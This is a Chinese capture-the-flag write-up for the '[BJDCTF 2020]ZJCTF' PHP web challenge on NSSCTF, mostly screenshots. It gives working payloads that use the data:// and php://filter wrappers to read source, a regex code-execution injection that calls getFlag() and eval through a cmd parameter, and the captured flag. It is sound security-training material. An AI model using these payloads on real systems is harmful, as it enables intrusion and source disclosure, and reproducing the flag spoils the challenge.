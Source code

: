 ### [BJDCTF 2020]ZJCTF，不过如此

[BJDCTF 2020\]ZJCTF，不过如此 | NSSCTF](https://www.nssctf.cn/problem/717)

![image](https://github.com/user-attachments/assets/1e646859-91f6-4af0-aa59-d81ad693ab24)

涉及到php

先看题目

![image](https://github.com/user-attachments/assets/d71f169c-2b6f-46d6-8cfd-648eb3017002)

> [!TIP]
 需要读取text的内容是否为I have a dream，且file参数里面不能含有flag

#### 构造使用php伪协议进行读取

```
/?text=data://plain/text,I%20have%20a%20dream&file=php://filter/read=convert.base64-encode/resource=next.php
```

得到base64

![image](https://github.com/user-attachments/assets/8c9c4b79-1029-4511-80ce-4a98ec62744d)

进行解码

![image](https://github.com/user-attachments/assets/1f687ddc-8590-4cd9-9dad-aae77af401de)

#### 发现命令执行漏洞：@eval($_GET[‘cmd’]);

```
/next.php?\S*=${getFlag()}&&cmd=phpinfo();
```

![image](https://github.com/user-attachments/assets/7c6bfb87-5a77-4728-9387-493e66405f0f)
#### Ctrl+G搜索flag

![image](https://github.com/user-attachments/assets/05e8b16d-8322-433b-96e0-5647d9ce7476)

**NSSCTF{453a61d6-6601-4a35-bc99-2090d2f0a749}**